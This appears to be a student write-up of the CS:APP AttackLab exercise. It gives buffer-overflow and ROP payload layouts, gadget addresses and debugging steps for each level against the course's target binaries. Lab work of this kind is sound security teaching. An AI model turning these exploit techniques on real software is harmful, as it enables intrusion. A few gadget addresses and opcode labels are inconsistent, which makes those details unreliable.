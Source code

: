 ## AttackLab

[toc]

> Run locally and debug with `./ctarget -q`

# Knowledge point
* stack 
* function call details

tools:
 * objdump: `--start-address=<addr> --stop-address=<addr>` .
 * gdb: `set args -q < tmp` will redirect the input to the file `tmp`.
 * xxd: hexadecimal view.

chanllenge fil:
* write `./level` files, with `./hex2raw` conversion, the output can be view by `xxd`, 
    * e.g.: `./hex2raw < level | xxd`.
* run: `./hex2raw < level | ./ctarget -q`, 
* debug: 
    * save the result of `hex2raw` to `./tmp` file
        * `./hex2raw < level > tmp`
    * set parameters in gdb.
        * `set args -q < tmp`
    * set the breakpoint and start debugging.
        * `b * getbuf`, `start`, `c`

# Solution

> this solutions is for reference only, please complete the expreiment independently.

# phase 1
## level 1

calculate the distence and jump directly to `touch1` 

stack : `padding(00..) + touch1(0x4017c0)`

## level 2

using a gadget, set parameters 1 (rdi), 

`pop rdi (5f)`, 

![p1](https://i.loli.net/2021/02/03/2bMtE3OHDIo56iT.png)

```
   0x40141b <scramble+147>:     pop    rdi
   0x40141c <scramble+148>:     ret
```
stack : `padding(00..) + pop_rdi(0x40141b) + arg1(cookies) + touch2(0x4017ec)`

## level 3

the address in the stack stays the same every time you run it, stores a string in the stack.

set the parameter in the same way as level 2.

stack : `padding(00..) + pop_rdi(0x40141b) + arg1(stack_str) + touch3(0x4018fa) + stack_str(str(cookies))`

the address of `stack_str` obtained by debugging.

# phase 2

this is same as phase 1, but has a limited range of gadgets.

`objdump -t ./rtarget | grep "fram"`  get range boundary address.

`objdump --start-address=<addr> --stop-address=<addr> -d -M intel ./rtarget `

## level 2 (level4)

`pop rax (58)`, 

![p2](https://i.loli.net/2021/02/03/zr2G8i5TWVpXRn1.png)
```
   0x4019cc <getval_280+2>:     pop    rax
   0x4019cd <getval_280+3>:     nop
   0x4019ce <getval_280+4>:     ret
```
`mov rax rdi`

![p3](https://i.loli.net/2021/02/03/KgLSfwGczJ6PBYt.png)


```
   0x4019a3 <addval_273+3>:     mov    edi,eax
   0x4019a5 <addval_273+5>:     ret
```
stack : `padding(00..) + pop_rax(0x4019cc) + arg1(cookies) + rax2rdi(0x4019a3) + touch2(0x4017ec)`

## level 3 (level5)

still consider put the strings on the stack.

find a `mov rsp ..`

![p4](https://i.loli.net/2021/02/03/KgLSfwGczJ6PBYt.png)

`mov rsp rax (48 89 c7)`

```
   0x401aad <setval_350+2>:     mov    rax,rsp
   0x401ab0 <setval_350+5>:     nop
   0x401ab1 <setval_350+6>:     ret
```


the rsp represented by rax is the next address to jump to and run, 

which is definitely not available, so look for the gadget that does the addition and subtraction.


`ROPgadget` is used here.
![p4](https://i.loli.net/2021/02/03/ZzRn5qLuVfkFWM3.png)

```
   0x4019d6 <add_xy+1>: lea    rax,[rdi+rsi*1]
   0x4019da <add_xy+4>: ret

```
and we can see that running up to here rsi is 0x30.

stack : `padding(00..) + rsp2rax(0x401aad) + rax2rdi(0x4019a2) + lea_rax(0x4019d6) + touch3(0x4018fa) + padding2(00..) + stack_str(str(cookies))`



